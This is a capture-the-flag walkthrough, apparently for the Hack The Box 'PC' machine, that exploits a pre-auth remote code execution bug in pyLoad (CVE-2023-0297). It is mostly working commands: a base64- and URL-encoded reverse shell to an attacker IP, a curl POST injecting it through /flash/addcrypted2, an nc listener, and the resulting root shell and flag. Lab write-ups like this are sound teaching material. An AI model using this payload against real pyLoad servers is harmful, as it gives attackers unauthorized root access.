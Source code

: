 
## pyLoad - Pre-auth RCE (CVE-2023-0297)

Google `pyload exploit`

> https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad#exploit-code

Encode reverse shell to base64

```bash
┌──(kali㉿kali)-[~/htb/PC]
└─$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.70/1111 0>&1 "'|base64 -w0
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvMTExMSAwPiYxICIK 
```

Craft command :

```bash
echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvMTExMSAwPiYxICIK|base64 -d|bash
```

Url encode the command using **jq**

```bash
┌──(kali㉿kali)-[~/htb/PC]
└─$ printf %s 'echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvMTExMSAwPiYxICIK|base64 -d|bash'|jq -sRr @uri
echo%20L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvMTExMSAwPiYxICIK%7Cbase64%20-d%7Cbash
```

Execute payload

```bash
┌──(kali㉿kali)-[~/htb/PC]
└─$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"echo%20L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvMTExMSAwPiYxICIK%7Cbase64%20-d%7Cbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.70] from (UNKNOWN) [10.10.11.214] 44440
bash: cannot set terminal process group (1051): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# id
id
uid=0(root) gid=0(root) groups=0(root)
root@pc:~/.pyload/data# cat ~/root.txt
cat ~/root.txt
4f67ac252887d75c401106563eed97b6
```


# Additional
---
